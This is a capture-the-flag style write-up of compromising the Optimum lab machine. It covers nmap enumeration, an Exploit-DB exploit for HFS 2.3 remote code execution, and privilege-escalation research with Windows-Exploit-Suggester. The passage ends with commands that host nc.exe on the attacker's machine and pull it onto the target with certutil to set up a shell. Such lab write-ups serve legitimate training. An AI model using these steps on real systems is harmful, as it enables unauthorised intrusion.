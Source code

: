 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
<img src="images/optimum/hfs_mainpage.png" alt="hfs_mainpage" width="600" height="400"/> </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
<img src="images/optimum/initial_shell_poc.png" alt="initial_shell_poc" width="1000" height="400"/> </br>\
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
<img src="images/optimum/initial_shell_poc2.png" alt="initial_shell_poc2" width="650" height="120"/> </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
![windows_exploit_suggester](images/optimum/windows_exploit_suggester.png) </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
**1:** I Copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ```
**2:** I Hosted a python http server with: ```python -m http.server 80``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```